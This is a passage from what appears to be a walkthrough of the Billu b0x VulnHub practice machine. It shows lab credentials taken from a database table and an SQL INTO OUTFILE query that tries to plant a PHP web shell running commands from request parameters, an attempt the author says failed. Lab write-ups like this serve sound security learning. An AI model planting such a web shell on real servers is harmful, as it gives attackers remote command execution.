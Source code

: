 ![9-5.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-5.png)

Navigate to the table called auth and get the credentials to log in to `/index.php`;

![9-6.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-6.png)

__user:biLLu
pass:hEx_it__

While we're here we tried to upload a shell but failed. This was done as follows;
```
SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/rs.php"
```


[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator